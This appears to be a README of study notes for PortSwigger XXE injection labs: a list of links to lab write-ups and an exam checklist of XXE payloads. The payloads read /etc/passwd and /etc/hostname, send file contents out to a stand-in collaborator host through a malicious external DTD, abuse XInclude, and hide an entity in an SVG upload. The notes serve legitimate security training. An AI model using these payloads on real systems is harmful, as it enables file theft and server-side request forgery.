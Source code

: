 # [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)

## Labs

- apprentice:
  - [1. Exploiting XXE using external entities to retrieve files](./lab/1.%20Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files.md)
  - [2. Exploiting XXE to perform SSRF attacks](./lab/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks.md)
- practitioner:
  - [3. Blind XXE with out-of-band interaction](./lab/3.%20Blind%20XXE%20with%20out-of-band%20interaction.md)
  - [4. Blind XXE with out-of-band interaction via XML parameter entities](./lab/4.%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities.md)
  - [5. Exploiting blind XXE to exfiltrate data using a malicious external DTD](./lab/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD.md)
  - [6. Exploiting blind XXE to retrieve data via error messages](./lab/6.%20Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages.md)
  - [7. Exploiting XInclude to retrieve files](./lab/7.%20Exploiting%20XInclude%20to%20retrieve%20files.md)
  - [8. Exploiting XXE via image file upload](./lab/8.%20Exploiting%20XXE%20via%20image%20file%20upload.md)
- expert:

## Checklist for exam

- payload:
  - read the contents:

  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  ```

  - oob interaction:

  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://collaborator"> ]>
  ```

  - external dtd

    ```xml
    <!DOCTYPE stockcheck [<!ENTITY % xxe SYSTEM "http://exploit-server/poc.dtd">%xxe; ]>
    ```

    - poc.dtd (read contents via oob):

      ```xml
      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
      %eval;
      %exfiltrate;
      ```

    - poc.dtd (read contents via error):

      ```xml
      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
      %eval;
      %error;
      ```

  - XInclude (b64-encoded payload because it contains non-printable characters):

    ```base64
    %3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%0d%0a%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e
    ```

  - svg file:

    ```xml
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```
